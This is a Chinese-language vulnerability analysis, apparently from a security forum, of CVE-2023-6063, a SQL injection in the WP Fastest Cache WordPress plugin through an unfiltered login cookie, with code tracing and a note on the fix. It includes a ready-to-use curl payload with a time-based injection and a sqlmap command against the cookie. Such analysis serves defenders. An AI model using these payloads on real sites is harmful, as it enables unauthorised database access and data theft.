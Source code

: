 

# CVE-2023-6063分析|WordPress WP Fastest Cache 插件导致的SQL注入 - 先知社区

CVE-2023-6063分析|WordPress WP Fastest Cache 插件导致的SQL注入

- - -

### 漏洞环境

● wordpress 版本无限制  
● WP Fastest Cache 插件 <1.2.2，这里使用1.2.1版本  
启用 WP Fastest Cache 插件，并启用“缓存系统”

[![](assets/1702866477-626aa05914ce7ca06b880c04272cb392.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213222532-7917171a-99c3-1.png)

漏洞点  
cache.php 。调用在漏洞分析部分分析

[![](assets/1702866477-bf9f0123830af9522d28140f0533151a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230000-49924762-99c8-1.png)

public function is\_user\_admin(){  
global $wpdb;

```plain
foreach ((array)$_COOKIE as $cookie_key => $cookie_value){
    if(preg_match("/wordpress_logged_in/i", $cookie_key)){
        $username = preg_replace("/^([^\|]+)\|.+/", "$1", $cookie_value);
        break;
    }
}

if(isset($username) && $username){          
    $res = $wpdb->get_var("SELECT `$wpdb->users`.`ID`, `$wpdb->users`.`user_login`, `$wpdb->usermeta`.`meta_key`, `$wpdb->usermeta`.`meta_value` 
                           FROM `$wpdb->users` 
                           INNER JOIN `$wpdb->usermeta` 
                           ON `$wpdb->users`.`user_login` = \"$username\" AND 
                           `$wpdb->usermeta`.`meta_key` LIKE \"%_user_level\" AND 
                           `$wpdb->usermeta`.`meta_value` = \"10\" AND 
                           `$wpdb->users`.`ID` = `$wpdb->usermeta`.user_id ;"
                        );

    return $res;
}

return false;
```

}

### 漏洞复现

记得改cookie 中 wordpress\_logged\_in的字符串，如wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93  
漏洞点在cookie的 wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93(会变) 参数处  
curl [https://example.com](https://example.com/) -H "Cookie: wordpress\_logged\_in=1234%22%20AND%20(SELECT%202537%20FROM%20(SELECT(SLEEP(5)))Sazm)%20AND%20%22qzts%22=%22qzts"

sqlmap 证明：  
python sqlmap.py --dbms=mysql -u "[http://your-url/wp-login.php](http://your-url/wp-login.php)" --cookie='wordpress\_logged\_in\_732bf205f063fd120b84d8a0d44e2d5d=\*' --level=2 --current-user

[![](assets/1702866477-5b3a8a10a5cf3ea7ca52c3713a249e29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230021-564dd444-99c8-1.png)

### 漏洞分析

简单说就是在加载插件时，取wordpress\_logged\_in 第一个 | 前的字符，然后插入到 SQL 语句中。  
而这样也是可以匹配的，即payload

[![](assets/1702866477-1a5f049c04a16ed30321a8acf80e27c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230031-5c24f21c-99c8-1.png)

[![](assets/1702866477-f808862a038e492e26632509c9ed06e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230038-609225a4-99c8-1.png)

wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93内容如下：  
wordpress|1702575454|gquEYSZ8lNbJktLUWLpElq4XybIhpPmOL3MmTMcqi4X|91c52c9d088ad036d8ccdc6ef645adfd906829527d27ea494140369cdbfbb1b9  
这一部分的功能就是取出wordpress

[![](assets/1702866477-167e1be5ecf07b62e55459a854f59743.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230052-68a16188-99c8-1.png)

然后没有过滤就进入了SQL语句中

[![](assets/1702866477-b515e46cd684b2bff1f61e86010caae4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230102-6ea23f8a-99c8-1.png)

is\_user\_admin() 被 createCache() 调用

[![](assets/1702866477-91329269039bd1e5381ed861b67cf030.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230128-7e7f2cba-99c8-1.png)

追踪 createCache()，被cache()调用

[![](assets/1702866477-848cc98c8476f8eea8f4cf7d381d8589.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230142-86752a8c-99c8-1.png)

[![](assets/1702866477-72063633aa3f6595ca1b4afc42bcc6fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230148-8a0f8bb0-99c8-1.png)

看cache()在何处被调用，发现被构造函数调用，即在 WpFastestCache 对象被创建时调用

[![](assets/1702866477-db6751b777f967bdb09696cdc7ef9ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230155-8e1020f8-99c8-1.png)

[![](assets/1702866477-7d1304d0f30f504d0682018531b2cb3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230201-91a045cc-99c8-1.png)

这两处创建了对象，看谁包含了wpFastestCache.php，继续跟，跟到plugin.php，大概就是插件加载时调用的

[![](assets/1702866477-1d165b8b459d87a615552d88902c0f67.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230220-9ceff04e-99c8-1.png)

[![](assets/1702866477-4e417726c80006baf42550f9124c09b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230225-a0258ecc-99c8-1.png)

[![](assets/1702866477-ed959346df00fcb1d1ab51caf92937cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230230-a3498df6-99c8-1.png)

### 漏洞修复

WP Fastest Cache 插件 1.2.2，修复了此漏洞

[![](assets/1702866477-46c5ef5b632e29c23bb794e2d0bb6514.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230239-a8b4fe2e-99c8-1.png)

对参数进行了过滤

[![](assets/1702866477-005f6282df003c301fd2d87b68b4dd12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230250-af523814-99c8-1.png)

[![](assets/1702866477-0311fcc54ddaa3fbabd059933afabbcf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230257-b3177f86-99c8-1.png)
